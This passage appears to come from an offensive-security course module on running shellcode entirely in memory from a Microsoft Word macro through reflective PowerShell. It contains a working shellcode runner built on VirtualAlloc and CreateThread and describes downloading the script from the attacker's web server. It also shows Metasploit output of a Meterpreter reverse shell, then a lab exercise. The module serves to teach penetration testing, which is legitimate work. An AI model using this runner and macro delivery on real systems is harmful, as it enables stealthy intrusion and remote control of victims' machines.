 To avoid writing any artifacts to disk, we'll replace the previous content of the **run.ps1** file with the reflective PowerShell shellcode runner we developed, shown below:

```
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

> Listing 2 - PowerShell reflection based shellcode runner

With the reflective PowerShell code saved in the **run.ps1** file and stored on the web root of Apache on our Kali box, we can execute the attack and open the Microsoft Word document.

Once the document is opened and the macro warning is accepted, the contents of **run.ps1** are downloaded and executed in memory, after which we obtain a reverse shell, as shown below.

```
[*] Started HTTPS reverse handler on https://192.168.119.50:443
[*] https://192.168.119.50:443 handling request from 192.168.120.10; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.50:443 -> 192.168.120.10:49678)

meterpreter > 
```

> Listing 3 - Reverse Meterpreter shell executed from the reflective PowerShell shellcode runner

We now have the tradecraft to execute a completely in-memory payload from Microsoft Office macros while leveraging PowerShell.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| Reflective PowerShell in Microsoft Office - VM #1 |   |   |
| ------------------------------------------------- | - | - |

**Labs**

1. Implement the reflective PowerShell shellcode runner and execute it from a Microsoft Word macro as shown in this module.

What process does the shellcode run inside of?
